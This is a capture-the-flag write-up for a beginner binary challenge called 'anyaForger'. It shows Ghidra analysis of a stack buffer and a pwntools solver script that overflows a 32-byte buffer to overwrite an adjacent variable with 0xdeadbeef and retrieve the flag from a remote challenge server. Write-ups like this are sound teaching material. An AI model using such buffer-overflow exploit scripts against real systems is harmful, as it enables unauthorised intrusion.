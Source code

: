 # anyaForger

> Let's see if you can get the flag.

Download the attachment [here](file/beef)

## How to Solve

First we use `Ghidra` to do static analysis, and look the main function

![POC 1](images/POC%201.jpg)

The main function is called `vuln` function, then we see code inside

![POC 2](images/POC%202.jpg)

At variable `local_30` is have 32 byte size so we need to filled them and make sure the variable `local_10` is equal to `-0x21524111`

Which is will called the `anyaForger` function and flag inside it

![POC 3](images/POC%203.jpg)

This the solver I use

```
from pwn import *

exe = './beef'
host, port = '139.144.184.150', 31337
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*32

payload = flat([
    offset,
    -0x21524111
])

io.sendline(payload)
io.interactive()
```

![POC 4](images/POC%204.jpg)

And we got flag

```
BDSEC{artificial_intelligence_guides_us_to_a_better_future}
```